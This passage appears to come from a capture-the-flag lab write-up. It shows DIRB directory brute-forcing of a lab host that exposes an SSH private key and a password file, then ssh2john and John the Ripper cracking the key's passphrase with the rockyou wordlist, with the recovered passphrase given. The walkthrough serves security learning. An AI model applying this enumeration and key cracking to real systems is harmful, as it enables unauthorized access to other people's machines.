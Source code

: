     :::text
    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------

    OUTPUT_FILE: dirb_ip
    START_TIME: Tue Dec  3 07:40:04 2019
    URL_BASE: http://10.10.10.159/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612

    ---- Scanning URL: http://10.10.10.159/ ----
    + http://10.10.10.159/.bash_history (CODE:403|SIZE:580)
    ==> DIRECTORY: http://10.10.10.159/.ssh/
    ==> DIRECTORY: http://10.10.10.159/fuck/
    + http://10.10.10.159/index.html (CODE:200|SIZE:612)
    ==> DIRECTORY: http://10.10.10.159/install/

    ---- Entering directory: http://10.10.10.159/.ssh/ ----
    + http://10.10.10.159/.ssh/authorized_keys (CODE:200|SIZE:395)
    + http://10.10.10.159/.ssh/id_rsa (CODE:200|SIZE:1766)
    + http://10.10.10.159/.ssh/password (CODE:200|SIZE:10)

    ---- Entering directory: http://10.10.10.159/fuck/ ----

    ---- Entering directory: http://10.10.10.159/install/ ----
    + http://10.10.10.159/install/index.php (CODE:200|SIZE:1050)

    -----------------
    END_TIME: Tue Dec  3 08:10:46 2019
    DOWNLOADED: 18448 - FOUND: 6

The `password` file contain a single "word": `awwwwwwww`.

The SSH key is password protected, we extract the hash for john and run it to
find the password: `rootroot`.

    :::text
    $ python2 /usr/bin/ssh2john id_rsa > id_rsa.hash
    $ john  id_rsa.hash -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
    Use the "--format=ssh-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 4 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    rootroot         (id_rsa)
    Warning: Only 1 candidate left, minimum 4 needed for performance.
    1g 0:00:00:11 DONE (2019-12-03 13:51) 0.08635g/s 1238Kp/s 1238Kc/s 1238KC/s *7¡Vamos!
    Session completed
